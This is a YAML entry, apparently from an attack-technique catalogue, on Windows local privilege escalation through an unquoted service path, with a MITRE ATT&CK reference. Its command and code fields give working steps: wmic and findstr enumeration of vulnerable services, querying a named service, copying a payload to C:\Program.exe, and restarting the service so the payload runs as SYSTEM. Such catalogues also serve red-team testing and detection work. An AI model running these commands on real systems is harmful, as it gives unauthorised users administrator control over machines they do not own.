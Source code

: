 ```yaml
---
description: |
  This attack exploits an unquoted service path in a Windows service to achieve local privilege escalation.
  By placing a malicious executable in a higher‐level directory of the service’s unquoted ImagePath,
  Windows will execute it with the service’s SYSTEM privileges.

  Command Reference:
    wmic, sc qc, copy, sc stop, sc start, net localgroup
      Target: Any Windows service whose ImagePath contains spaces and is not enclosed in quotes

command: |
  # Enumerate auto-start services with unquoted paths
  wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v "\""

code: |
  # 1. Find services with unquoted paths
  wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows\\" | findstr /i /v "\""

  # 2. Query service configuration
  sc qc SystemExplorerHelpService  # PathName: C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe

  # 3. Place malicious EXE at C:\Program.exe
  copy /Y C:\Temp\payload.exe C:\Program.exe  # writable by standard user

  # 4. Stop and start service to load C:\Program.exe
  sc stop SystemExplorerHelpService
  sc start SystemExplorerHelpService

  # 5. Confirm SYSTEM execution by checking impact
  net localgroup administrators

items:
  -
services:
  -
OS:
  - Windows
attack_types:
  - Enumeration
  - Privilege Escalation
references:
  - https://attack.mitre.org/techniques/T1574/009
  - https://blackpointcyber.com/blog/unlocking-the-mystery-of-unquoted-service-paths-another-opportunity-for-privilege-escalation/
---
```

